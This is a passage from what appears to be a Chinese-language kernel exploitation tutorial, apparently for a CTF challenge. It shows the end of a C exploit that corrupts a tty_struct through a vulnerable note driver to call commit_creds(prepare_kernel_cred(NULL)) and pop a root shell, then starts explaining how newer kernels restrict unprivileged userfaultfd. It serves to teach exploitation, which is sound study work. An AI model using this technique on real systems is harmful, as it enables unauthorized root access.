 ```c
    fake_tty_ops_addr = (size_t) kernel_notebook[1].ptr;

    printf("[+] tty_struct at 0x%lx\n", tty_struct_addr);
    printf("[+] fake_tty_ops at 0x%lx\n", fake_tty_ops_addr);

    /* prepare_kernel_cred(NULL) */
    puts("[*] triger commit_creds(prepare_kernel_cred(NULL)) and fix tty...");

    memcpy(fake_tty_struct_data, orig_tty_struct_data, 0x2e0);
    fake_tty_struct_data[3] = fake_tty_ops_addr;
    fake_tty_struct_data[4] = kernel_offset + PREPARE_KERNEL_CRED;
    fake_tty_struct_data[5] = (size_t) NULL;

    note_wriite(0, fake_tty_struct_data);

    ioctl(tty_fd, 233, 233);

    /* commit_creds(&root_cred) */
    note_read(0, fake_tty_struct_data);
    fake_tty_struct_data[4] = kernel_offset + COMMIT_CREDS;
    fake_tty_struct_data[5] = fake_tty_struct_data[6];
    fake_tty_struct_data[6] = orig_tty_struct_data[6];

    note_wriite(0, fake_tty_struct_data);

    ioctl(tty_fd, 233, 233);

    /* fix tty_struct */
    memcpy(fake_tty_struct_data, orig_tty_struct_data, 0x2e0);
    note_wriite(0, fake_tty_struct_data);

    /* pop root shell */
    get_root_shell();
}

int main(int argc, char **argv, char **envp)
{
    exploit();
    return 0;
}

```

## 新版本内核对抗 userfaultfd 在 race condition 中的利用

正所谓“没有万能的银弹”，可能有的人会发现在较新版本的内核中 userfaultfd 系统调用无法成功启动：

![uffd_failed](figure/uffd_failed.png)

这是因为在较新版本的内核中修改了变量 `sysctl_unprivileged_userfaultfd` 的值：
